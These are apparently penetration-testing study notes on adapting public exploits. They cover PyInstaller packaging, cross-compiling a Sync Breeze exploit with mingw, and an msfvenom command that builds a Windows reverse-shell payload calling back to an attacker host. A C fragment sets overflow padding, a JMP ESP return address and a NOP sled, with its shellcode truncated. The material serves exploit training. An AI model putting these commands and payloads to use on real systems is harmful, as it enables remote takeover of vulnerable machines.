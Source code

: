 # Exploit Fixing

## Python Installer

* No cross compilation
* Bundles pyhton program for the platform with dependencies 

```bash
pip install -U pyinstaller
pyinstaller your-program.py
```

## Cross-Compilation

* Compile Windows Programs on Linux 

* compiler
* input file
* -o output file
* -l link libraries e.g. windows sock

```bash
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

# not working on kali arm64 apple
#sudo dpkg --add-architecture i386
#sudo apt update
#sudo apt install winehq-stable
#wine syncbreeze_exploit.exe
```

Compile with GCC

```bash
gcc linux-42341.c -o syncbreeze
./syncbreeze 
```

## Fix Buffer Overrun Exploit

Always create SHELL CODE and don't trust existing shell code

* -e x86 encoder
* -f c source output
* -b, bad-chars list to avoid "\x00\x0a\x0d\x25\x26\x2b\x3d"

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Fix exploit Sync Breeze

* rewrite socket connection from windows to linux!
* set target IP and PORT
* add 780+1 (null terminator)
* ret override with JMP ESP (exended stack pointer)
* set NOP SLIDE + SHELLCODE

```c
#define TARGET_IP "192.168.205.10"
#define TARGET_PORT 80

int initial_buffer_size = 780+1;
    char *padding = malloc(initial_buffer_size);
    memset(padding, 0x41, initial_buffer_size);
    memset(padding + initial_buffer_size - 1, 0x00, 1);
    // unsigned char retn[] = "\xcb\x75\x52\x73";  //msvbvm60.dll not present
    unsigned char retn[] = "\x83\x0c\x09\x10";   // 0x10090c83 JMP ESP in DLL
    unsigned char shellcode[] =
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
    "\xdb\xc9\xbf\x69\xf5\x12\xbb\xd9\x74\x24\xf4\x5b\x33\xc9" // shellcode
    "\xb1\x52\x31\x7b\x17\x03\x7b\x17\x83\xaa\xf1\xf0\x4e\xd0"
    ....
    "\x45\x87\xbe\x32\x40\xc3\x78\xaf\x38\x5c\xed\xcf\xef\x5d"
    "\x24";
```
